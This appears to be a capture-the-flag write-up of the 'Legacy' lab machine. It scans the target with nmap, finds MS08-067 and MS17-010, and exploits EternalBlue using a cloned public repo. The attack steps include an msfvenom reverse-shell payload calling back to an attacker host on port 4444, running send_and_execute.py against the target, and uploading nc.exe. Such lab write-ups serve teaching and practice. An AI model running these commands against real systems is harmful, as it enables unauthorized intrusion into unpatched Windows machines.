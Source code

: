 Legacy without Metasploit:

![Legacy](https://user-images.githubusercontent.com/55708909/91388528-2e9b1100-e855-11ea-9e19-33536c5bab8e.png)

Starting with Nmap Scan :
Nmap -sC -sV -T4 -A -O -oA Legacy -p- 10.10.10.4

![Legacy_nmap](https://user-images.githubusercontent.com/55708909/91389091-3f985200-e856-11ea-84e5-cd4c6331d2bc.png)
 As you can see that there are two ports open :
 1-Port 139
 2-Port 445

Therefore we will enumerate these ports.


I tried using basic tools but nothing seems to work so i run a vulnerability scan using nmap

![Legacy_vuln](https://user-images.githubusercontent.com/55708909/91391388-46739480-e857-11ea-95d0-1d3943d45251.png)

Nmap found us two vulnerability which can be exploited. 

1-MS08-067


2-MS17-010 (Eternal Blue)

I will be exploiting eternal blue using custom exploits from this git repo 

git clone https://github.com/helviojunior/MS17-010.git

cd MS17-010

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

open a netcat session on port 4444

Run these command : python send_and_execute.py 10.10.10.4 shell.exe and you will get a reverse shell on port 4444

![Legacy_shell](https://user-images.githubusercontent.com/55708909/91396814-f39adc80-e858-11ea-8a21-c25fa68f1066.png)


Since it does not have whoami features therefore we will upload nc.exe from our machine to target machine and get it executed.

![Legacy_flag](https://user-images.githubusercontent.com/55708909/91399730-20042800-e85c-11ea-8a3d-167ca4516724.png)










